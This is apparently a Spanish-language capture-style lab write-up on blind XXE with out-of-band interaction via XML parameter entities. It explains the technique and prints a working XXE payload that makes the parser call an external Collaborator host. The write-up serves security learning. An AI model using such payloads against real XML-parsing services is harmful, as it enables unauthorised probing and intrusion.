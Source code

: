 ![[Pasted image 20230815164453.png]]

![[Pasted image 20230815164943.png]]

![[Pasted image 20230815164959.png]]

---
# Lab 4 : Blind XXE with out-of-band interaction via XML parameter entities

La inyección de entidad externa XML (XXE) es una vulnerabilidad que se produce cuando una aplicación web procesa entradas XML no confiables sin la debida validación o mitigación. Un atacante puede aprovechar esta vulnerabilidad para cargar entidades XML externas, lo que podría resultar en la revelación de información confidencial del servidor, ataques de denegación de servicio o incluso la ejecución de código remoto.

En el contexto de "Blind XXE", el ataque es denominado "ciego" porque el atacante no recibe directamente la respuesta del servidor, lo que significa que no puede ver directamente la salida del ataque. En lugar de eso, el atacante explora la posibilidad de interacciones fuera de banda. Esto significa que el atacante induce al servidor a comunicarse con recursos controlados por el atacante, como un servidor web o un servicio de red, para obtener información sobre el éxito o el resultado del ataque.

La técnica de "out-of-band interaction via XML parameter entities" se refiere a la forma en que el atacante logra la interacción fuera de banda utilizando entidades de parámetros XML. Las entidades de parámetros XML son constructos en XML que permiten definir y utilizar variables para representar datos. Los atacantes pueden aprovechar estas entidades de parámetros para provocar solicitudes de red desde el servidor vulnerable hacia recursos controlados por el atacante, como servidores web, sistemas DNS o servidores FTP. Luego, el atacante puede monitorear estas interacciones fuera de banda para obtener información sobre el éxito del ataque.

```java
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://1eghwxl5xfrqlendj5ejta9kmbs2gy4n.oastify.com/testing"> %xxe; ]>
<stockCheck>
<productId>
2
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

![[Pasted image 20230815173326.png]]

![[Pasted image 20230815173958.png]]

![[Pasted image 20230815174105.png]]

---